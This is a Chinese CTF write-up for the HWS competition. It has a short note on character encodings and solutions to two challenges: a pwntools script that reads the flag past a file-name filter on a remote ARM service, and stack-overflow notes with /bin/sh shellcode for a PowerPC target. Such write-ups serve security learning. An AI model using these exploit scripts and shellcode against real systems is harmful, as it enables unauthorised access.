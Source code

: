 ![image](https://xuanxuanblingbling.github.io/assets/pic/hws/bios.png)

关于字符集问题：

- 非常直观的回答：[uuspider: Unicode 和 UTF-8 有什么区别？](https://www.zhihu.com/question/23374078/answer/65352538)
- 定义明确的回答：[邱昊宇: Unicode 和 UTF-8 有什么区别？](https://www.zhihu.com/question/23374078/answer/24385963)

所以对于一个字符到底怎么存储的，简单来说：

- UTF-8  : 变长，1-4个字节
- Unicode: 定长，2个字节，就是UTF-16LE

### easymsg

> arm:linux

西湖论剑修改题：[messageBox](https://xuanxuanblingbling.github.io/iot/2020/11/17/iot/)，不过看代码是读文件过滤了flag，然后协议开头的magic由H4bL1b变成了HwsDDW，但是不知道为啥用原来的读文件直接读flag还是能打通，本地打通了，远程多打几次也通了，原因没细研究：

```python
from pwn import *
import zlib
context(log_level='debug',endian='big')
io = remote("183.129.189.60",10016)

payload = "readFile:"+"/"*0x100+"/flag"
crc = int(zlib.crc32(payload)& 0xffffffff)
io.send("HwsDDW"+p16(len(payload))+"\x01\x02"+p32(crc)+payload)
io.interactive()

```

原exp成功证明截图如下，base64解码后即为flag：

![image](https://xuanxuanblingbling.github.io/assets/pic/hws/easymsg.png)

命令执行正解：[2020西湖论剑IoT闯关赛系列Writeup（嵌入式PWN部分）](https://mp.weixin.qq.com/s/x19DiiitMeAm5VAupqzfdg)

### PPPPPPC

> ppc:linux

- 不用逆向，调试发现栈溢出，远程环境一定是qemu，故shellcode一把梭
- 搜索内存发现两段内存里存着发过去的数据，注意要用栈上的shellcode，拷贝到数据段的shellcode会被截断。
- 栈地址可以通过远程内存访问报错是打印寄存器泄露，由于是qemu，所以每次不变，故泄露一次，下一次攻击用即可

```python
from pwn import *
context(log_level='debug',endian='big',arch ='ppc')

# shellcode from http://shell-storm.org/shellcode/files/shellcode-86.php

shellcode  = "\x7c\x3f\x0b\x78"
shellcode += "\x7c\xa5\x2a\x79"
shellcode += "\x42\x40\xff\xf9"
shellcode += "\x7f\x08\x02\xa6"
shellcode += "\x3b\x18\x01\x34"
shellcode += "\x98\xb8\xfe\xfb"
shellcode += "\x38\x78\xfe\xf4"
shellcode += "\x90\x61\xff\xf8"
shellcode += "\x38\x81\xff\xf8"
shellcode += "\x90\xa1\xff\xfc"
shellcode += "\x3b\xc0\x01\x60"
shellcode += "\x7f\xc0\x2e\x70"
shellcode += "\x44\x00\x00\x02"
shellcode += "/bin/shZ"

```